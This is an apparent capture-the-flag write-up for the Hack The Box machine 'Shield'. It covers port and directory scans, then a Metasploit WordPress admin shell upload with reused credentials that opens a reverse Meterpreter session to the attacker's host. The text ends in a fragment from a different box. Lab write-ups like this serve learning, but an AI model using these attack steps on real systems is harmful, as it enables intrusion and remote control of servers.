 ## --------->> Shield <<----------

// First scanning with nmap

    $ nmap -sV -A -Pn 10.10.10.29 -p-
    Nmap scan report for 10.10.10.29
    Host is up (0.11s latency).
    Not shown: 65533 filtered ports
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: IIS Windows Server
    3306/tcp open  mysql   MySQL (unauthorized)
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

// Nvigating to http://10.10.10.29/ didnt give us much 
// execpt the fact its Windows IIS server(what we already know from nmap)

// lets search some potential directories with feroxbuster

    $ ./feroxbuster -u http://10.10.10.29/ -t 150

     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.3.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://10.10.10.29/
     🚀  Threads               │ 150
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.3.1
     🔃  Recursion Depth       │ 4
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    301        2l       10w      152c http://10.10.10.29/wordpress
    301        2l       10w      161c http://10.10.10.29/wordpress/wp-admin
    301        2l       10w      163c http://10.10.10.29/wordpress/wp-content
    301        2l       10w      164c http://10.10.10.29/wordpress/wp-includes
    301        2l       10w      170c http://10.10.10.29/wordpress/wp-content/themes
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-content/plugins
    301        2l       10w      167c http://10.10.10.29/wordpress/wp-includes/js
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-includes/images
    301        2l       10w      168c http://10.10.10.29/wordpress/wp-includes/css
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-content/uploads
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-includes/blocks
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-content/upgrade
    301        2l       10w      170c http://10.10.10.29/wordpress/wp-includes/fonts
    301        2l       10w      170c http://10.10.10.29/wordpress/wp-admin/includes
    301        2l       10w      168c http://10.10.10.29/wordpress/wp-admin/images
    301        2l       10w      164c http://10.10.10.29/wordpress/wp-admin/js
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-includes/Images
    301        2l       10w      177c http://10.10.10.29/wordpress/wp-includes/images/media
    301        2l       10w      168c http://10.10.10.29/wordpress/wp-includes/CSS
    301        2l       10w      174c http://10.10.10.29/wordpress/wp-includes/customize
    301        2l       10w      166c http://10.10.10.29/wordpress/wp-admin/user
    301        2l       10w      165c http://10.10.10.29/wordpress/wp-admin/css
    301        2l       10w      170c http://10.10.10.29/wordpress/wp-content/Themes
    301        2l       10w      172c http://10.10.10.29/wordpress/wp-includes/widgets
    301        2l       10w      168c http://10.10.10.29/wordpress/wp-admin/Images
    301        2l       10w      169c http://10.10.10.29/wordpress/wp-includes/text
    301        2l       10w      167c http://10.10.10.29/wordpress/wp-includes/JS
    301        2l       10w      172c http://10.10.10.29/wordpress/wp-includes/js/dist

// i tried another tool (dirsearch) 

    $ python3 dirsearch.py -u http://10.10.10.29/ -t 200

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 200 | Wordlist size: 10903

    Output File: /home/kali/Desktop/Tools/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.29/_21-07-31_21-35-35.txt

    Error Log: /home/kali/Desktop/Tools/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-07-31_21-35-35.log

    Target: http://10.10.10.29/

    [21:35:36] Starting: 
    [21:35:39] 403 -  312B  - /%2e%2e//google.com
    [21:35:57] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
    [21:35:59] 301 -    0B  - /Wordpress/  ->  http://10.10.10.29/wordpress/
    [21:36:53] 200 -    3KB - /wordpress/wp-login.php
    [21:36:55] 200 -   24KB - /wordpress/

// its seems we have wordpress CMS on the server and login page to Wordpress at http://10.10.10.29/wordpress/wp-login.php
// since we have credentials of admin:P@s5w0rd! from last box(Vaccine) lets try it using MetaSploit

    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password P@s5w0rd!
    password => P@s5w0rd!
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
    username => admin
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts 10.10.10.29
    rhosts => 10.10.10.29
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /wordpress
    targeturi => /wordpress
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.7
    lhost => 10.10.16.7
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lport 1444
    lport => 1444
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

    [*] Started reverse TCP handler on 10.10.16.7:1444 
    [*] Authenticating with WordPress using admin:P@s5w0rd!...
    [+] Authenticated with WordPress
    [*] Preparing payload...
    [*] Uploading payload...
    [*] Executing the payload at /wordpress/wp-content/plugins/URXgzTZVXX/HTaruRzgbG.php...
    [*] Sending stage (39282 bytes) to 10.10.10.29
    [*] Meterpreter session 1 opened (10.10.16.7:1444 -> 10.10.10.29:49688) at 2021-07-31 21:16:41 +0000
    [!] This exploit may require manual cleanup of 'HTaruRzgbG.php' on the target
    [!] This exploit may require manual cleanup of 'URXgzTZVXX.php' on the target
    [!] This exploit may require manual cleanup of '../URXgzTZVXX' on the target

    meterpreter > whoami
    [-] Unknown command: whoami
    meterpreter > getuid
    [-] Error running command getuid: Rex::TimeoutError Operation timed out.
    meterpreter > dir
    [-] Error running command dir: Rex::TimeoutError Operation timed out.
    meterpreter > pwd
    [-] Error running command pwd: Rex::TimeoutError Operation timed out.
    meterpreter > cd C:/Users
    [-] Error running command cd: Rex::TimeoutError Operation timed out.
    meterpreter > exit -y
    [*] Shutting down Meterpreter...

// for some reason metasploit didnt get me a stable shell to work, Navigating to http://10.10.10.29/wordpress/wp-login.php
 we ebale to connect with credentials admin:P@s5w0rd! , after login we will click: >> Appearance >> Themes >> Add New

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Shield/1.png)



Access ID | Name | Email
----------|------|-------
34322 | admin | admin@megacorp.com

// When navigating to uploads (http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads) we get error due privilleges

![Image 2](https://github.com/W0lfySec/HTB/blob/main/Images/Oopsie/Screenshot_2021-07-31_11_02_
